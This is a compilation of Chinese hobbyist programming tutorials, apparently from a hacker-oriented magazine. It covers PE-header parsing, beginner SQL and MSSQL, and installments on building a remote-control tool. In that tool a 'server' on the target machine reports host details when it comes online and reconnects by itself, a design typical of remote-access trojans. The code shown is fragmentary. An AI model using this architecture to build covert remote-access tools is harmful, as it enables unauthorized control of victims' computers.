在这里呢，我们创建了线程后就完成任务了，收发数据是其他线程的事情，我们不用管。要管的是一个问题，大家可能已经想到了：也许我们有多个服务端连接，我们就要有多个线程在同时执行这个函数。那么每个函数怎么知道要监听的是哪个 Socket？这里我们就要把数组下标传到 ReceiveDataThreadProc 函数中。要传值的话大家应该还记得，可以直接在 CreateThread 的第四个参数传入指针，就可以传进去了。不过，下标我们同样需要获得，不过我们的对象是直接通过 GetFreeConnection 来返回的，并不知道这个下标是多少，所以我们要通过指针的方式来回传下标。这个不用多说了吧？

现在呢，还有一个问题需要考虑，就是服务端断开连接的问题。这个问题很简单，但是有一个潜在的问题：第一个，我们的列表视图控件上的排序，如果说删除了一个，那么编号肯定就要从中间删除一个，排序就会混乱，这个是很麻烦的。这样吧，我们来思考一下，我们的 ServerConnection 类型里面有一个 ID，这个 ID 并不是每个连接都有的。这是因为有的软件可能和我们的端口相冲突，这样的话就会出现连接我们客户端端口成功，但是根据我们的数据包规则却无法解析出正确的指令，这样我们就接收不到正确的信息来显示。所以，我们这里并没有做成一旦有连接就添加列，不然可能会有空列，这个会导致用户体验非常糟糕。

说白了，也就是我们有多少数组成员并不意味着有多少项会在列表视图中显示。好了，这么多的问题，我们一个一个来解决。我们先来解决排序的问题，假设我们有 5 个有效服务端，那么 ID 排序为 1、2、3、4、5，现在编号 3 的服务端断开了，那么现在我们面临着重新排序。这里其实就是编号 1、2 不变，4 改成 3，5 改成 4，也就是比 3 大的编号全部减 1。提到这里大家应该能够写出算法了吧？咳咳，如果还是不会的就看代码吧，这个已经是非常非常简单的算法了。注意这里不管什么原因，我们还是要在删除之前用 closesocket 和 delete 掉我们的对象，否则内存会越来越少。最后把相应的数组元素赋值为 NULL。

现在剩下的一个问题就是如何防止其他软件和端口冲突发送错误的数据包了。这个很简单，我们可以要求服务端在连接之后立即发送一个验证数据包，数据包 ID 为 0，附加信息为 Hello。只有收到这样的信息之后，我们才开始对后面的信息进行解析；如果没有收到验证数据包而是收到其他的数据包，我们就断开连接。这个实现很简单，我们给 ServerConnection 加一个成员，就叫 CheckFlag，如果收到验证就设为 TRUE，否则就设为 False。好了，相对应的问题解决后，我们就要开始做我们的上线功能了。

现在我们回到服务端的代码，第一次连接的时候，就要获取本机的信息并且封装为数据包来发送。我们新写一个函数，叫做 SendPcInfo，SendPcInfo 下面调用多个函数来发送本机信息。我这里一口气添加了 SendPcName、SendUserName、SendSysType、SendGroupName 和 SendPcInfo 五个函数。函数的参数呢，这里都是 Socket 连接对象就可以了。同时，因为我们既然要发送数据包了，那么相应的数据包 ID 也要做个约定。我在 SocketData 中加了几个宏定义，分别用来标识不同的信息，比如说发送计算机名，我这里就用了 PC_INFO_NAME，以此类推，具体的大家可以看我的代码。

这里宏定义不光在服务端要定义，客户端也要有相同的定义，否则可能会出错。这里我们 new 出一个 SocketData 对象之后，就可以将值存入对象中，最后调用 send 函数进行发送。大家注意到 send 函数的第二个参数是 char* 类型的，我们直接强制转换即可，到了客户端我们再强制转换回来（你要问我用什么函数获取计算机名？咳咳，忘了说了，用 GetComputerName 可以获取到计算机名）。好了，现在发送代码相信大家应该也没有什么问题了。我们已经可以发送数据，但是接收数据还不行呢，又要回到客户端来开发。

客户端里面我们有一个叫做 ReceiveDataThreadProc 函数，我们并没有在里面写东西，现在我们在里面写上代码。因为要不停地接收数据包，所以我们这里还是老样子，先写一个死循环再说。第一，我们知道，当线程开始运行的时候，会传入一个整数来标识我们要接收的连接对象，所以我们要先把这个整数取出来。这样我们就可以接收了。同样的，我们要在内存中分配一个缓冲区用于存放接收到的数据。弄完了之后，我们就可以根据接收到的数据包 ID，执行相应操作。我们在 CClientDlg 类中添加一个方法，用来处理服务端信息这个系列的消息，我就添加了一个 Pc_Info 的方法。

这里具体要执行什么操作就不用我说了吧？把收到的信息存入对应的类成员，然后把收到的信息显示到列表上。有个问题比较麻烦，因为我们在显示到列表的时候，MFC 的列表视图并不能像其他的语言一样一条语句搞定。MFC 的列表视图控件要完整地显示一条数据，先要通过 InsertItem 方法先在里面添加一条空项目，然后使用 SetItemText 方法一个一个设置每一个列的值。所以在什么时候 Insert，什么时候设置列值，是个很重要的问题。这里我觉得在接收到验证数据包的时候 Insert 一个项，然后在接收到数据包的时候进行列值填充，这样是比较合适的。有了思路，大家应该不会觉得太困难了吧？

好了，这里我就不说了，现在说说服务端信息在获取的时候容易出现的问题，上面已经说过了计算机名的发送。现在我——一个一个来说剩下的：

## 1. 用户名的获取

这个没什么，和计算机名的获取很相似，用 `GetUserNameW` 即可。

## 2. 系统类型的获取

系统类型这里要获取需要说一下，因为系统类型并不能像 `GetUserNameW` 这样直接得到一个字符串，而是得到一个主版本号和子版本号，这个子版本号对应着我们的各个 Windows 版本，我这里把版本表给大家：

| 系统版本 | 版本号 |
|---|---|
| Windows 7 | 6.1 |
| Windows Server 2008 R2 | 6.1 |
| Windows Server 2008 | 6.0 |
| Windows Vista | 6.0 |
| Windows Server 2003 R2 | 5.2 |
| Windows Server 2003 | 5.2 |
| Windows XP 64-Bit Edition | 5.2 |
| Windows XP | 5.1 |
| Windows 2000 | 5.0 |

大家可能发现有的版本号是一样的，这些版本之间要做区分的话，有更细化的操作，我这里就做了比较简单的一个识别，仅仅分辨比较常见的操作系统，如果大家需要更详细的资料的话，可以参考 `http://msdn.microsoft.com/en-us/library/ms724429(v=vs.85).aspx`。

## 3. 分组信息的获取

这个也没什么的，因为目前我们还没有写更改分组信息的功能，这里的话大家直接定义一个全局变量，然后封装到数据包发送即可。

## 4. IP地址的获取

IP 地址这里我们可以直接在客户端获取，通过 `getpeername` 和 `inet_ntoa` 可以直接得到 ANSI 版本的 IP 字符串，但是很可惜，我们并不能直接添加到列表视图控件，因为我们的项目编码是 Unicode 项目，所以需要进行转换，我比较喜欢用下面的方法转换，先包含头文件 `comutil.h`，然后调用 `_com_util::ConvertStringToBSTR` 来转换。

OK，我们这次写的东西比较多，大家慢慢理解一下，源代码我会给大家，注释这块比较完整，大家可以看下。

## php实战秘籍（4）——数据库篇

咳咳，处于极度蛋疼的状态在写这篇文章。从本章开始介绍一段时间数据库，关于 php 的编写的话暂停一下，因为 php 后面的东西都是和数据库相关的，所以很多朋友可能更想学习 php 高端一点的知识，不过对于网页开发技术来说，数据库本身也是少不了的，对于进度的延迟，这里只能对比较迫切的 X 子们说抱歉了。本来是想再开一个连载专门来说数据库，但是这样的话 php 这边的连载就失去了连续性，有太大的跨度，不适合初学者学习。就说到这里，我们开始本章的内容。

对于很多业余的编程人员来说，可能很多人只是开发一些单机用的小软件，就很少涉及到数据库。但是对于稍大一点的程序，数据量多一点的程序，数据库就是必须的了。我有很多朋友，单机软件开发都很不错，但是数据库，却一窍不通。对于黑客来说，可能做软件破解的数据库涉及得少点，但是如果是做渗透的，那么数据库一定要很 NB，我文章里面的数据库知识对于他们来说就太嫩了，渗透高手莫笑……我这里只想写得基础一些，方便更多的人能看懂，能学会，这也是为什么月下孤笔很多都是连载而不是单篇（其实我本人玩数据库也不怎么样……）。

说起数据库基础，我们又不得不说一些各种数据库书籍上必说的话了。数据库的应用现在可谓是非常广泛，经济价值也是非常非常高。全球最值钱的文本框大家知道是哪个么？没错，就是 Google 首页上那个。搜索引擎，要能把几乎全世界的数据存储下来，然后当用户搜索时，在那么短短的零点几秒内出现结果，这并不是大家的带宽带给大家的便利，而是搜索引擎在数据库方面的尖端技术所带给大家的便利。说了那么多废话，都烦了，火速切入正题。不知道大家有没有想过，到底什么是数据库？其实说白了，什么都是数据库。我们硬盘和里面的文件，都可以看作是数据库，哪怕是我们新建一个文本文档，也可以称之为数据库。我们在日常生活中，对数据的操作无非就是“增”“删”“改”“查”这四种。

# 月下孤笔

话说回来，这四个字也囊括了数据库的基本功能。我们这里所谓的数据库，是指由数据库开发公司开发的高效的统一的数据管理软件。这里重点强调“高效和统一”——高效意味着能够存储大量数据并在使用时快速处理；统一意味着根据一定标准开发，不然每个数据库都按自己的想法开发，切换时学习和迁移成本会很高。

现在大部分数据库的统一标准是 SQL（结构化查询语言）。市面上大部分数据库都支持 SQL 语句，包括 MSSQL、MySQL、Oracle、DB2 等。以上这些数据库都很常用，下面根据常见认知做一个简要介绍。

- **Oracle**：公认性能较强，商业应用费用较高，对硬件要求较高，学习门槛相对高，对 Java 支持较好。
- **DB2**：IBM 开发，功能强大，很多评价认为比 MSSQL 更强，但实际选型仍取决于场景。
- **MSSQL**：微软产品，易用性和人性化较好，操作相对简单。
- **MySQL**：开源免费、应用广泛，网站场景常见，与 PHP 的整合度高。

上面说了数据库都支持 SQL，那么 SQL 是做什么的？SQL 是用于对数据库中的数据进行操作的规范化语言，基本语句对应增删改查。各数据库也会在标准之外提供各自特性。为便于学习，这里先以 MSSQL 作为讲解。

- **MSSQL 的安装**：整体操作不复杂。若有 VS2008 可通过其安装精简版 SQL Server 引擎，但精简版不含完整图形管理工具，管理工具通常需另行安装。SQL Server 作为服务安装在系统中，安装异常后重装代价较高，因此建议尽量保持系统环境干净；另外其体量较大，安装后建议重启。
- **配置**：安装完成后菜单中会出现 Microsoft SQL Server 2005 以及 SQL Server Management Studio Express（是否出现取决于安装方式与版本）。当前阶段通常不需要复杂配置，后续在软件连接数据库时会涉及安全与网络相关设置。
- **界面管理工具**：打开后先连接数据库。SQL Server 服务默认可设为手动启动；可在 `services.msc` 中查看并管理相关服务。进入 SQL Server Management Studio 后可选择本机服务器进行连接，通常使用 Windows 身份验证即可。


图1

登录之后，我们看下界面，如图2。


图2

左侧对象资源管理器中有本机实例，可展开后进行数据库管理。这里强调的是后续常用操作入口基本都在该区域。

都知道现在要建立一个网站并不一定需要买或者租一台服务器，而是只需要购买虚拟主机。如果说数据库只能有一个，那么一个网站就必然要用一台服务器，这个费用是非常昂贵的。所以，MSSQL 可以容许我们在一台电脑上建立多个数据库，以方便我们使用。在“数据库”这项上右键，我们可以新建一个数据库。接下来弹出的窗口主要是给我们对即将建立的数据库进行一些配置，很多地方其实默认即可，给数据库起个名字，路径这里我们可以选择一个自己喜欢的路径，最好不要有中文。还有就是不要在启用了压缩的硬盘分区上建立，否则会出错……如图3。


大家看最下面，“压缩此驱动器以节约磁盘空间”这个勾不要勾上，否则建库的时候就要报错了。设置好之后点击确定，我们可以看到对象资源管理器上就多出了我们新建的数据库。建立了库以后我们就可以存放数据了吗？nonono……在使用数据库的时候，我们还要在库下面建立表。表的话，就更加细化了，在网站设计过程中，一张表只会存放一个类型的数据……这样一来，我们的表就很多，但是很有规律，不会乱七八糟。

展开我们建立的数据库，看到下面有个叫做“表”的子项，再展开下面就有系统表。系统表是系统运行必须的，所以我们不要去动它，直接在这个项上右键，新建表。点了之后，右边就会出现一个选项卡，里面有格子，这里是要做什么呢，是要给我们的表添加字段。这里可能很多人又要问了，什么是字段？先不说，我们找一张工资表来看看：如图4。

工资单（示例表格）：包含“部门、姓名、底薪、奖金、满勤、职务、扣除、应付工资、实收工资”等列。

| 部门 | 姓名 | 底薪 | 奖金 | 满勤 | 职务 | 扣除 | 应付工资 | 实收工资 |
|---|---|---|---|---|---|---|---|---|


工资表我们可以看到，除了标题之外，我们表里面有什么呢？第一行，是部门、姓名、底薪……而下面是我们要填写的内容，其实在数据库中我们的表也是这样的。我们新建表，就应该是建立一张上图一样的没有任何数据的表。这个就是列头的作用，有了部门列，我们才知道这一列要填写部门……数据库中的字段，大家就可以按列来理解。注意，表名和字段名可以是中文，但是最好用英文。

- **varchar**：可变长字符串，一般用于存放比较短小的字符串，比如地址、密码、用户名等。
- **int**：整数。
- **double**：双精度浮点数。
- **text**：大文本，主要存放较大的文本内容（如帖子内容等）。
- **datetime**：用于存放时间（如记录发帖时间）。
- **money**：金钱。噗咚，微软专门给钱还做了个数据类型，晕……

注册时间之类的都可以用这个。

那么，个人觉得比较常用的就是这么些，后面“允许空”复选框不用说了。你见过谁输完用户名就直接登录一个网站的？那么大家根据我这样来填写好我们的字段就可以了，如图5。

然后点保存，输入表名之后就会保存进去了，然后在表下面，我们就可以看到我们新建的表。在表上点击右键 -> 打开表，就可以看到弹出的新选项卡了：


图6

怎么样，和我们的工资表一样吧？现在可以往里面存数据了哟。好啦，我们本章就说到这里，我们下个月再见。

# 小小地实现一个远程（4）——一些小的逻辑修正

影月

大家好，在前几章中，我们完成了基本远控的一个架构。那么，从这一章之后我们要做的就是一些功能的填充和细节上进行一些修正。首先，在实现右键菜单的时候，我们要修补几个地方。第一个，我们把客户端和服务端同时运行，看到服务端上线之后，大家可能会习惯性地去点一下我们已经上线的主机，但是点了以后，这一个项并不会像我们平时那样整行地变色，然后告诉我们已经被选中啦。

- `LVS_EX_FULLROWSELECT`：整行选中
- `LVS_EX_GRIDLINES`：显示网格线
- `LVS_EX_AUTOCHECKSELECT`：在列头上提供全选 CheckBox
- `LVS_EX_CHECKBOXES`：在每一行前面添加 CheckBox
- `LVS_EX_SUBITEMIMAGES`：可在子项前显示图标

好的，大致常用的就这么一些，大家也可以自己查阅 MSDN 来翻找更多资料。列表视图的扩展样式足足有 30 来项，大家可以慢慢研究。

好像废话也占了一些篇幅了，现在还是来说我们的右键弹出菜单。首先要有右键弹出菜单，我们必须要捕获右键的鼠标消息。我们在列表视图上右键，点击添加事件处理程序，然后找到消息类型：`NM_RCLICK`，然后系统会自动生成事件处理程序，我们就在那写我们的事件代码。

这里我们一定要进行判断，否则会出错的。考虑完了之后，就可以开始做菜单了。要弹出菜单，我们肯定要有菜单可以弹。现在我们新建一个菜单资源，资源 ID 改为 `MENU_POP`，做完之后，我们就可以开始添加菜单项了。

目前我们右键菜单就先做一个“断开服务端”，后面有了新功能之后我们再进行添加。这里简单说下，在 VS2008 的菜单编辑器中，直接可以看到菜单的样子，我们在框中可以直接输入要显示的文字，如图1所示。不过图中的“弹出菜单”这个项在我们点击右键的时候是不会显示的，弹出的时候只会弹出它下面的子菜单。

大家可能注意到很多的软件菜单后面都会有一个括号，里面有下划线和字母；当按下 `Alt` + 对应字母的时候就会执行相应的菜单项。这个我们不需要考虑，如果需要给菜单添加这样的快捷键，我们直接在要显示的文字后面加上 `(&字母)` 就可以达到这样的效果。除此之外，大家可能见到在有的菜单中还出现了分割线，这个分割线我们只要在一个菜单项中打一个 `-`，那么这一项菜单就变成分割线。


下一步我们要在刚刚创建的右键单击事件的功能函数中写代码，实现菜单的弹出。在这之前，我们同样要知道弹出菜单的步骤：首先要创建一个 `CMenu` 菜单对象；其次要用 `LoadMenu` 加载菜单资源，再获取菜单资源的子菜单；然后还要获取鼠标位置；最后在鼠标所在位置弹出右键菜单。

把代码也弄进去下：


不过，有了这些代码还是不够的。在我刚刚捋出的思路，我们应该在用户右键时判断是否有选中的项目，如果有我们应该做好相应的判断以保证程序不出错误。在老版本的 MFC 里面，ListCtrl 的 `GetSelectedCount` 方法有一点点小问题，不过现在大家不用担心了，可以放心用，如果 `GetSelectedCount` 返回值不为 0 才弹出菜单，否则不弹出。

弹出菜单做好之后，现在断开的逻辑代码还要编写。根据我们的算法，客户端强行断开是不可行的，因为断开以后很快服务端就会重新连接，这就失去了断开的意义了。那么如果记录下服务端的信息，等下次服务端再次连接的话，那么服务端始终还是占用着资源，我觉得这样做也不合适。我们应该发送一个断开指令包给服务端，然后服务端断开，客户端删除相应项，这才是正常的流程。其实这个要实现很简单。我们现在找到我们“断开服务端”这个菜单项，注意这里菜单资源有一个资源 ID，每一个菜单项也会有一个菜单 ID，为了代码的可读性，最好都更改为自己方便记住的名字。在消息响应函数中，我们先用 ListCtrl 的 `GetFirstSelectedItemPosition` 方法获取到选中的项的 ID，然后组织断开数据包，发送之后调用我们之前的 `DeleteServerConnection` 方法来进行处理。

但是运行之后我们很快就会发现点了断开菜单，马上就出现了异常，这个异常是因为我们 `DeleteServerConnection` 判断不完整导致的。这里我们调试一下即可发现，调用这个函数时，我们只是判断 `ServerArray` 里面的元素的 ID 属性是否大于被删除项的 ID，如果大于，则把这个 ID 减一，以保证 ID 和列表项统一。但是这个很明显有一个缺陷，就是我们的 `ServerArray` 的项有可能是 `NULL`，如果访问了为 `NULL` 的元素，就会产生访问异常。所以我们在删除之前，就要加一个判断，如果为 `NULL`，就不执行任何操作，避免出错，这里我就不贴代码了，这个很简单。

不过现在依然存在一个问题，我们在关闭连接的时候，我们的接收数据的线程依然还在运行，而且一定是处于 `recv` 函数的等待状态。连接被关闭，`recv` 函数就会迅速返回一个空的数据包，空数据包的 `MSGID` 不等于 0，那么则跳转到下面的判断，而下面的判断条件是：`ServerArray[id]->CheckFlag==false && recvData->MSGID!=0`。表面上看没有什么问题，但是实际上，我们在关闭连接之后，此时的 `ServerArray[id]` 已经为 `NULL` 值，所以在这里还会抛出一个访问异常。

与此同时，可能很多 X 子们还会关心一个很重要的问题，就是资源的释放问题。我们线程启动之后就再也不会停止，如果有很多服务端上线、很多服务端下线，那么我们程序所占用的线程数是非常庞大的，所以这里我们也要添加代码进行处理。因为很多东西都要做，所以我这一期先把我设计上的缺陷弥补一下。因为我比较散漫，写作之前并没有给远控做个大体的架构，所以可能问题多一点。不过毕竟我不是专职作家，如果详细地设计的话，时间负担不起。而且我觉得学编程很容易，但是在开发过程中要解决问题，才是真正需要积累的。对于错误的问题上，还是希望大家能够谅解我。

我们还是一个一个问题来解决。首先考虑多线程安全性的问题，现在出现了冲突，最简单的办法还是加入判断，或者这里直接添加上错误处理，像服务端算法一样，错误无效之后直接结束线程避免占用资源，我觉得这里加错误处理是最好的。不过加入错误判断之后，大家要注意一点，刚刚说了，我们断开的时候程序有很大可能性 `recv` 还在等待状态，但是等待状态并不是我们所能控制的，所以我们换个方法来避免多线程安全性冲突。我们看 `DeleteServerConnection` 的最后两句是释放内存和复位数组的操作，这个操作我们可以先挪动一下。假设用户点了断开服务端，那么发送断开指令之后，服务端会断开并关闭，我们其实没有必要在 `DeleteServerConnection` 里面来复位，可以放到接收数据线程里面来复位。这里我把修改过后的 `DeleteServerConnection` 和 `ReceiveDataThreadProc` 贴出来给大家看下。这个篇幅有点大，我可是冒着被小编 T 死的风险发出来的……

```cpp
// 接收数据线程回调函数
DWORD WINAPI ReceiveDataThreadProc(LPVOID lpParameter)
{
    int id = *((int*)lpParameter);
    SocketData *recvData = NULL;
    int errtime = 0;
    while (errtime < 5)
    {
        recvData = new SocketData();
        int recvedByteNum = recv(ServerArray[id]->Sock, (char*)recvData, sizeof(SocketData), 0);
        ...
    }
}
```


好了，目前发现的问题就这么一些，具体还有什么潜在的我没考虑到的以后再说，大家如果想到了可以跟我说，技术是在交流探讨中成长的嘛。

最近又有很多 X 子们在问我编程难不难了，还是那句话，有心，就不难。咳咳，大家可以看下嘛，如果想学编程的人很多，那么我们可以组织一个 YY 频道，我定时到里面和大家交流。（PS：如果只有一两个就算了，毕竟人少也很冷清，影月是喜欢凑热闹的人呀，嘿嘿）……

## DIY 我们自己做PE文件信息读取器（上）

相信在黑客界，PEID 这个工具肯定是家喻户晓，但是它是怎么获取到 exe 的信息的呢？在上个月的合刊中，我们已经讲解了 exe 的基本文件格式，那么，我们今天就来看看 PEID 是如何实现的。我们首先看下 PEID 的主界面，第一条，文件路径，这个没什么难的基本内容……的，很容易搞定。下面是入口点、EP区段、文件偏移量、首字节、链接器版本、子系统。那么这些信息就是主界面，至于下面的查壳结果，下面的内容是蓝屏的，就暂时不做了。先看我们上面的内容。EP区段后面还有一个按钮，可以查看区段的各种各样的问题。首字节后面按钮点了会出现反汇编信息，这里我们也不做了。再下面子系统后面的按钮，点开之后是各种各样的 EXE 信息，这个我们要实现。如图1。


图1

好了，大致我们要实现的功能就是这些了，拖出 VS2008，我们来看看实现过程。首先做我们的界面，可以根据我的样子拖好界面。最好更改好控件 ID，增加可读性。接下来，我们可以开始写代码了。首先我们要使用这个文件，肯定要打开文件。这里相信大家都想到，很多软件打开文件的时候都有这样的一个选择框。这种框其实是微软已经封装好、直接可以用的，称之为通用对话框。

我们直接来看看怎么用吧，双击我们拖出来的这个打开文件的按钮（就是按钮上内容是三个点的），对这个按钮的 Click 事件处理函数进行编辑。好，打开之后，我们可以看到系统自动为我们生成了方法可以直接调用，那么我们就在里面添加代码。第一件事肯定就是弹出公共对话框，那么弹出公共对话框需要哪些代码呢？首先，创建一个公共文件对话框对象。文件对话框类是：`CFileDialog`，那么首先我们就要创建这个对象。

```cpp
explicit CFileDialog(
    BOOL bOpenFileDialog,
    LPCTSTR lpszDefExt = NULL,
    LPCTSTR lpszFileName = NULL,
    DWORD dwFlags = OFN_HIDEREADONLY | OFN_OVERWRITEPROMPT,
    LPCTSTR lpszFilter = NULL,
    CWnd* pParentWnd = NULL,
    DWORD dwSize = 0,
    BOOL bVistaStyle = TRUE
);
```

我这里来说一下参数：

- `bOpenFileDialog`：如果为 TRUE 则表示创建“打开文件”对话框，FALSE 表示创建“另存为”对话框。
- `lpszDefExt`：默认文件扩展名。
- `lpszFileName`：默认文件名。
- `dwFlags`：文件对话框样式。
- `lpszFilter`：过滤的文件类型（格式：“文件说明|扩展名|文件说明1|扩展名1|”）。
- `pParentWnd`：指定父窗口。
- `dwSize`：`OPENFILENAME` 结构的大小（不同系统版本可能变化，MFC 可自动调整）。
- `bVistaStyle`：Vista 风格开关（Win7/Vista 下有效）。

好了，那么根据我们的解释，基本上创建代码就出来了，这里我贴下代码吧：

```cpp
CFileDialog fDlg(TRUE, NULL, NULL,
    OFN_HIDEREADONLY,
    L"可执行文件|*.exe|动态链接库文件|*.dll|",
    this, 0, FALSE);
```

上面解释得很清楚了，这里不解释。只有样式这里说一下，`OFN_HIDEREADONLY` 的作用就是隐藏一个内容为“只读方式打开”的复选框。创建后用 `DoModal` 方法可以显示窗口，而用 `GetPathName` 方法可以获取到路径名称。对了，`GetPathName` 返回值是 `CString` 类型。

往下我们就要判断文件是否是 PE 文件了。先新建一个函数，叫做 `CheckPeFile`，然后在里面读取文件。在读取文件的时候，常规操作是 `OpenFile`、`ReadFile`，然后进行读写操作。但是因为项目编码使用的是 Unicode，而正好 OpenFile 没有对应的 Unicode 版本函数，所以这里我就用 `CreateFile` 函数来代替。至于文件读取，我觉得没多少可以说的，就是 `CreateFile` 的参数比较多，比较麻烦，我这里简单说说。看 `CreateFile` 的函数原型：

```cpp
HANDLE WINAPI CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);
```

# 月下孤笔


- **lpFileName**：文件路径，这个不可少，不可为空。
- **dwDesiredAccess**：所需要的权限，这里只需要读取。
- **dwShareMode**：文件共享模式，是否允许其他程序读写该文件。
- **lpSecurityAttributes**：安全属性结构指针，这里设为 `NULL`。
- **dwCreationDisposition**：文件创建设置，常见取值：
  - `CREATE_ALWAYS`：总是创建新文件；若存在则覆盖并清除原属性。
  - `CREATE_NEW`：创建新文件；若已存在则失败。
  - `OPEN_ALWAYS`：总是打开文件；若不存在则创建。
  - `OPEN_EXISTING`：打开已存在文件；不存在则失败。
  - `TRUNCATE_EXISTING`：将文件清空为 0 字节；不存在则失败。
- **dwFlagsAndAttributes**：一般可设为 `FILE_ATTRIBUTE_NORMAL`。
- **hTemplateFile**：临时文件句柄，这里设为 `NULL`。

好了，关于文件读写就说这么多，其他函数可自行查阅 MSDN。

在执行 `ReadFile` 之后，可以得到缓冲区地址。结合 PE 文件结构，可通过 `IMAGE_DOS_HEADER` 的 `e_magic`（`4D5A`）判断 DOS 头，再通过 `e_lfanew` 定位 PE 头。将首地址转换为 `PIMAGE_DOS_HEADER`，再将 `(文件首地址 + e_lfanew)` 转换为 `PIMAGE_NT_HEADER`，即可获得 PE 头指针。

有了这两个结构体指针后，可以继续读取全局信息。需要注意 DOS 头标志为 `MZ`，PE 头标志为 `PE`。

也可以采用创建文件映射的方式读取，方法更好但稍复杂。接下来进入信息读取：入口点位于 `IMAGE_OPTIONAL_HEADER32` 结构中；还可读取链接器版本、子系统等字段。格式化十六进制时可用如 `Format("0x%08x", value)` 的方式，保证不足位数时前补零。

```text
IMAGE_SUBSYSTEM_UNKNOWN         未知子系统
IMAGE_SUBSYSTEM_NATIVE          不需要子系统
IMAGE_SUBSYSTEM_WINDOWS_GUI     Windows 图形界面
IMAGE_SUBSYSTEM_WINDOWS_CUI     Windows 控制台界面
IMAGE_SUBSYSTEM_WINDOWS_CE_GUI  Windows CE 图形界面
```

常用的子系统值大致如此。随后文章说明：前文只实现了部分功能，后续需要先理解几个关键概念——文件偏移（File Offset）、虚拟地址（VA）、相对虚拟地址（RVA），因为入口点与节信息计算需要在这些地址之间进行换算。

我们的节数据、PE 头、入口点等，这些数据在文件中的位置我们称之为文件偏移。这个很好理解，那么后面的两个就有点麻烦了。先说说 Windows 在用户运行 exe 文件的时候，会进行一些什么操作？首先，判断这个 exe 是否有效；其次，将文件头装入内存；再次，将各个节根据内存对齐映射到内存中……


入口点 0x001CF40C，首字节是 55、8B、EC、83……这里获取到的入口点只是一个 RVA 地址，并不是我们真正的地址。那么这个该怎么办？这就需要一个换算。

相对虚拟地址是相对于镜像基址来定的，也就是如果程序装入地址为 00400000，而入口点 RVA 为 1000，那么 VA 就等于 00401000，也就是：

```text
VA = ImageBase + RVA
RVA = VA - ImageBase
```

那么，还有一个文件偏移……只有节表中既可以获取到在文件中的偏移，又可以获取到 RVA，那么这里我们可以得到一个偏移差，然后用 RVA 减去偏移差才能得到文件偏移……

## SQL入门第一课

我是 Erevus，彭月大佬说自己是邪气的程序员，我就是一个很有邪气的高中生……既然月影给我们上了 PHP，我就来跟各位兔子们讲解下 SQL。

开篇当然是介绍什么是 SQL。术语来说，SQL 指结构化查询语言，大家可以理解成数据库的操作语言。SQL 能做什么呢？当然是使我们有能力访问数据库。

# 月下孤笔

为了方便那些白得像纸的叉子学习，我来讲下数据库的结构。一个数据库通常包含一个或多个表。表包含带有数据的记录（行）。下面的例子是一个名为“administrator”的表：（表1）

| id | user | password |
|---|---|---|
| 1 | erevus | 123456 |
| 2 | admin | 852963 |
| 3 | hackofile | 741852 |

表1

上面的表包含三条记录（横的叫记录）和三个列（竖的叫列）。

| user |
|---|
| erevus |
| admin |
| hackofile |

表2

好了，开始讲 SQL 了。下面要用 SQL 从这个表来提取信息。从表提取信息的 SQL 语句是 select。下面的语句是从表中选取 user 列的数据：（表2）

select 语句用于从表中选取数据，select 这条语句的语法是：

select 列名称 from 表名称

以及：

select * from 表名称

假如我们想从“administrator”表中选取所有的列：

SQL 语句就是 select * from administrator

PS：SQL 语句对大小写不敏感。SELECT 等效于 select。

下面讲解 where 子句，子句可以添加在主句里使查询出来的结果更加精确。

下面的运算符可在 WHERE 子句中使用：（表3）

| 运算符 | 描述 |
|---|---|
| = | 等于 |
| <> | 不等于 |
| > | 大于 |
| < | 小于 |
| >= | 大于等于 |
| <= | 小于等于 |
| BETWEEN | 在某个范围内 |
| LIKE | 搜索某种模式 |

表3

如需有条件地从表中选取数据，可将 WHERE 子句添加到 SELECT 语句。还是用开头的表，如果只希望选取账号为“admin”中的人，我们需要向 SELECT 语句添加 WHERE 子句：

Select * from administrator where user='admin'

结果：（表4）

PS：请注意，我们在例子中的条件值周围使用的是单引号。SQL 使用单引号来环绕文本值（大部分数据库系统也接受双引号）。如果是数值，请不要使用引号。

| user | password |
|---|---|
| admin | 852963 |

表4

```text
============（文本值例子）============

这是正确的：
sql
SELECT * FROM administrator WHERE user='admin'

这是错误的：
sql
SELECT * FROM administrator WHERE user=admin
```

```text
============（数值例子）============

这是正确的：
sql
SELECT * FROM administrator WHERE password>1

这是错误的：
sql
SELECT * FROM administrator WHERE password>'1'
```

好了，这篇文章就先写这么多，等到大家熟了之后，以后学的内容会更多。

## php实战攻略（5）

### ——SQL篇

影 月

大家好，在上一章中，我们学习了如何用界面管理工具来对数据库进行基本的操作。但是假设我们要使用数据库都必须通过界面管理工具来操作，那么不用多说，如果我是比尔，数据库我会很慷慨地让大家免费使用。但是，界面管理工具，那大家就花个几千上百万去买吧。其实这样做的话，并没有什么意义，因为我们之所以要有数据库，是因为我们在开发过程中发现我们的程序需要高效地处理大量的数据……于是，就出现了今天大名鼎鼎的 SQL。

说了半天，SQL 到底是什么，还是“嗦”一下。SQL，全称 Structured Query Language，中文名结构化查询语言。与其说是一种语言，不如说是一种标准，因为现在主流的数据库都是按照 SQL 的标准来制定自己的基本语法……这里大家做出一个简单的了解即可。

SQL 是对数据库基本操作的一个标准，那么肯定包含增、删、改和查这四个基本的功能。那么在 SQL 中，增删改查分别对应了 insert、delete、update、select 这四个关键字。首先我们做下准备工作，创建一个新表……那么我们看看 insert 语句是怎么写的：

```sql
insert into 表名(字段名...) values(字段值...)；
```

这个大家应该不难看懂吧……由此可以写出两条功能一样的语句：

```sql
insert into HackxTest2 values(1,'张三')

insert into HackxTest2(ID,Name) values(1,'张三')
```

通过上面这一条，我们可以看出，在 SQL 中，字符串都是用单引号括住的。还有一点，SQL 语句是不区分大小写的……有个新建查询的按钮。


图1

点了以后，我们可以看到右边出现一个新标签页，在这里我们可以输入字符。在这里就可以编写我们的 SQL 语句了。把上面的两条语句粘贴到这个标签页中，点击工具栏上的一个蓝色勾，可以对其进行语法检查，如图2。


图2

然后点蓝色勾左边的执行按钮，就可以执行我们的 SQL 了。注意执行按钮左边的下拉菜单中，一定要选择我们要操作的数据库……如果窗口中显示：n 行受影响，就表示 insert 成功。

嗨，所以这里肯定是 1。这时候大家可以打开我们的 HackxTest2 表看看，张三这一条数据已经在里面了，如图3。


图3

那么对数据库的“增”操作我们就完成了。现在是要做删除操作了吧。删除的语法是：

```sql
delete from 表名 where 条件
```

